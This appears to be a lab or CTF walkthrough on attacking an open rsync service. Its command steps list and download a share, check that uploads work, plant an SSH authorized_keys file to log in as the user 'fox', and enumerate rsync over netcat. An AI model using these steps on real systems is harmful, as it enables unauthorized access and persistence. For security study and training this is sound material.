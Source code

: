 #### SSH key upload
```bash - kali
rsync rsync://$TARGET
```
`fox          fox home`
```bash - kali
rsync rsync://$TARGET/fox
```
Download share with it's contents:
```bash - kali
rsync -av rsync://$TARGET/fox ./rsyncfiles
```
Test to see if we can upload files:
```bash - kali
echo "test" > test
```
```bash - kali
rsync -av test.txt rsync://$TARGET/fox
```
```bash - kali
rsync -av --list-only rsync://$TARGET/fox
```
We can see our test file uploaded successfully.
Next, we'll create ssh keys and upload so we can ssh into target:
```bash - kali
ssh-keygen
```
```bash - kali
cp /home/kali/.ssh/id_rsa* .
```
```bash - kali
mkdir .ssh && mv id_rsa* .ssh
```
Change the public key to authorized_keys
```bash - kali
mv id_rsa.pub authorized_keys
```
Transfer the key files to the target like so:
```bash - kali
rsync -a --relative ./.ssh  rsync://$TARGET/fox/
```
```bash - kali
ssh fox@$TARGET
```
---
#### nc enumeration
```
nc -nvv $TARGET 873
```
```
@RSYNCD: 31.0
```
```
#list
```
Now lets try to enumerate "fox"
```
nc -nvv $TARGET 873
```
```
@RSYNCD: 31.0
```
```
fox
```
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
